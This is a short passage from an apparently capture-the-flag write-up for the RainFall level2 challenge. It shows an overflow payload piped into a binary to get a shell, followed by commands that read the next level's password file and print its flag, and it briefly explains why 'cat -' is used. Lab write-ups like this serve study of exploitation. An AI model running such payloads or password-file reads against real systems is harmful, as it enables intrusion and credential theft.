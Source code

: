 	level2@RainFall:~$ cat /tmp/2exp -| ./level2
	AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPP>RRRRSSSSTTTT>`�����X��
	whoami
	level3
	cat /home/user/level3/.pass
	492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

Why do we use `cat -` command? Because even if we break the level and call shell, binary is "limited" and can not give us terminal. For that reason we use option of `cat` that helps us to use stdin where shell is called after exploitation.

